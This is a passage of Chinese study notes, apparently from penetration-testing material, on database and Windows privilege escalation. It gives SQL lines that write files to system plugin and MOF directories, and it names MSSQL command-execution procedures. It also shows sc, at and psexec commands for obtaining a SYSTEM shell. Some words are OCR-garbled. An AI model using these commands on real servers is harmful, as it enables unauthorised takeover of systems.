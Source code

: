      2. 提权方法：服务探针->信息收集->提权利用->获取权限

         1. 数据库(需要获得最高权限密码)：

            1. 探针：端口，服务，其他

            2. 收集：最高权限密码

               1. 配置文件(了解命名规则):sql data inc config conn database common include
               2. 存储文件:@@datadir/data/数据库名/表名.myd
               3. 暴力破解:远程与本地
               4. 其他

            3. 分类：

               1. Mysql(UDF,MOF,启动项,反弹shell)3306

                  ```mysql
                  UDF：利用自定义执行函数导出dll文件进行命令执行
                  1.手工创建plugin目录或利用NTFS流创建
                  select 'x' into dumpfile' 目录/lib/plugin::INDEX ALLOCATION';
                  1.mysql<5.1导出目录c:/windowsdsystem32
                  2.mysql=>5.1导出安装目录@@basedir/1ib/plugin/ 
                  MOF：导出自定义mof文件到系统目录加载
                  select load_file('C:/phpstudy/PHPTutorial/wwW/user_add.mof')into dumpfile'c:/windows/system32/wbem/mof/nullevt.mof';
                  启动项：导出自定义可执行文件到启动目录配合重启执行将创建好的后门或执行文件进行服务器启动项写入,配合重启执行!
                  ```

                  

               2. Mssql(xp_cmdshell,sp_oacreate,sp_oamethod,沙盒模式,映像劫持)1433

               3. Oracle(普通用户,DBA用户,注入模式) 1521

               4. Redis 6379/Postgresql

         2. **溢出漏洞**(可以使用cmd)：信息收集->补丁筛选:Wes,windowsVulnScan->利用MSF或EXP->执行

            ```
            windows权限：
            普通权限：系统为用户分了7个组,并给每个组赋予不同的操作权限,管理员(Administrators)高权限用户组(Power Users),晋通用户组(Users)备份操作组(Backup Operators),文件复制组(Replicator)来宾用户组(Guests),身份验证用户组(Ahthenticated users)
            
            管理员(大部分操作权限)->高权限用户(不能修改系统设置，不能运行系统管理程序)->普通用户(不能处理涉及其他用户文件和管理的程序)->来宾(文件操作同上但无法执行程序)->身份验证
            
            特殊权限：SYSTEM(系统)，Trystedinstaller(信任程序模块)，Everyone(所有人)、CREATOR OWNER(创建者)等,这些特殊成员不被任何内置用户组吸纳,属于完全独立出来的账户。
            
            at 11:11 /interactive cmd.exe(2003版本前调用计划任务会使用system权限)
            sc Create syscmd binPath="cmd /K start" type= own type=interact
            sc start syscmd
            psexec.exe -accepteula -s -i -d cmd.exe(2008,需要安装pstools)
            ```

         3. 令牌窃取、

         4. 第三方软件、

         5. AT&SC&PS、
